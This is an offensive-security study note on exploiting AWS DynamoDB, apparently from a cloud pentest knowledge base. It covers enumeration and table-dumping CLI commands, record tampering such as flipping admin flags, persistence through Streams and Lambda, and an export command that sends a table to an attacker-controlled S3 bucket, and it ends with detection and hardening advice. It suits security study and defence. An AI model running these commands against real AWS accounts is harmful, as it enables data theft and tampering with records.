

# 07 - AWS DynamoDB Exploitation

## 1. Executive Summary

DynamoDB is AWS's managed NoSQL key-value/document store, often holding session tokens, user records, app config, and secrets. Attacks are mostly **data access + persistence**: with read perms, `Scan` dumps entire tables (exfil); with write perms, tamper records (privilege flags, balances) or **inject items** that downstream code trusts; **PITR export to S3** and **Streams** enable bulk exfil and stealthy data tapping; `RestoreTableFromBackup` clones a table you can read freely. No network exposure needed — it's all IAM-gated API.

## 2. Service Overview & Architecture

Tables hold **items** (attribute maps) keyed by partition/sort keys. Access is purely IAM (`dynamodb:*`). **Streams** emit item-change events (can trigger Lambda). **PITR/backups** allow `ExportTableToPointInTime` (to S3) and `RestoreTableFromBackup`. There's no "public" toggle — exposure comes from over-broad IAM or app-layer injection (NoSQL injection in code that builds queries).

## 3. Enumeration

```bash
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t>
aws dynamodb scan --table-name <t> --max-items 50          # dump items
aws dynamodb list-backups
aws dynamodb describe-continuous-backups --table-name <t>  # PITR enabled?
```

## 4. Privilege Escalation / Abuse Vectors

- **`dynamodb:Scan` / `Query` / `BatchGetItem`** — full table exfiltration (tokens, PII, secrets).
- **`dynamodb:PutItem` / `UpdateItem` / `BatchWriteItem`** — tamper records: flip `isAdmin`, alter balances, inject items the app trusts (auth bypass / logic abuse).
- **`dynamodb:ExportTableToPointInTime`** — export table to an S3 bucket you control → bulk exfil.
- **`dynamodb:RestoreTableFromBackup` / `RestoreTableToPointInTime`** — clone a table into one you can read.
- **`dynamodb:UpdateTable` (Streams) + Lambda** — enable a stream → trigger attacker Lambda on every change (data tap).
- **App-layer NoSQL injection** — unsanitized FilterExpression/condition input → over-read.

```bash
aws dynamodb export-table-to-point-in-time --table-arn <arn> --s3-bucket <attacker-bucket>
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Streams → attacker Lambda for continuous exfil.
- Keep a restored/exported copy; planted items as backdoor data.

## 7. Post-Exploitation / Data Access
- Session/JWT tokens → account takeover; user records → PII; config tables → API keys.
- Tampered items can grant app-level privileges.

## 8. Detection & Hardening
1. Least-privilege table IAM (scope to needed actions/attributes); deny `Scan`/`Export` broadly.
2. Encrypt with CMK; alert on `ExportTableToPointInTime`, `RestoreTable*`, `UpdateTable` (stream enable), large Scans.
3. Sanitize app queries (no user-controlled expressions); enable CloudTrail data events.

## 9. Chaining / Related Notes
- Tokens → app account takeover (Web App Security).
- Export bucket → **[[03 - S3 Exploitation]]**. Stream trigger → **[[05 - Lambda Exploitation]]**.

## 10. Tools
`aws dynamodb`, `pacu`, `NoSQLMap` (app-layer), `ScoutSuite`.
